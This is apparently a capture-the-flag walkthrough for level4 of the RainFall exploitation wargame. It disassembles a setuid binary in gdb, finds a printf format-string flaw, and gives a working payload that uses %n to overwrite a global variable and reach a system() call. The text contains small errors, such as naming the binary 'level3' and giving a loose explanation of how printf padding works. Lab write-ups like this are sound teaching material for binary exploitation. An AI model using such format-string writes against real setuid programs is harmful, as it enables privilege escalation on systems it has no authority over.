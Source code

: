 ```sh
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
level4@RainFall:~$ ./level4
42
42
level4@RainFall:~$ ./level4 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x08048444  p
0x08048457  n
0x080484a7  main
...
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   ...
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret    
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), p()```. ```n()``` function gets standard input by fgets, give to ```p()``` function, ```p()``` function does print the variable which is given by function ```n()```, but with ```printf()``` without formatter. \
And compare with variable ```m``` and 0x1025544, in decimal 16930116.
```sh
(gdb) x/s 0x8049810
0x8049810 <m>:   ""
```
As the previous level we try to lookup the stack values,
```sh
level4@RainFall:~$ python -c 'print "BBBB" + " %x" * 20' > /tmp/exploit3
level4@RainFall:~$ cat /tmp/exploit3 | ./level4 
BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```
And we can see that our BBBB which is ```42424242``` at the 12th position, so now we just have to do the same thing as the previous level: set value to ```16930116```.

But oops, the value ```16930116``` is too big number for print it all !

But no worries, there is a solution for this.
```sh
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'
```
```printf()``` internally does counting for characters that has been printed but since we have to print ```16930112``` characters, it will be tough to allocate all of them in the memory. \
But by adding little ```d``` option, which helps to count characters "virtually" to track the total numbers of printed characters, it no longer has to allocate memory for millions of characters.
```sh
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit3
level4@RainFall:~$ cat /tmp/exploit3 - | ./level4 
...
(hidden)
```
level4 passed !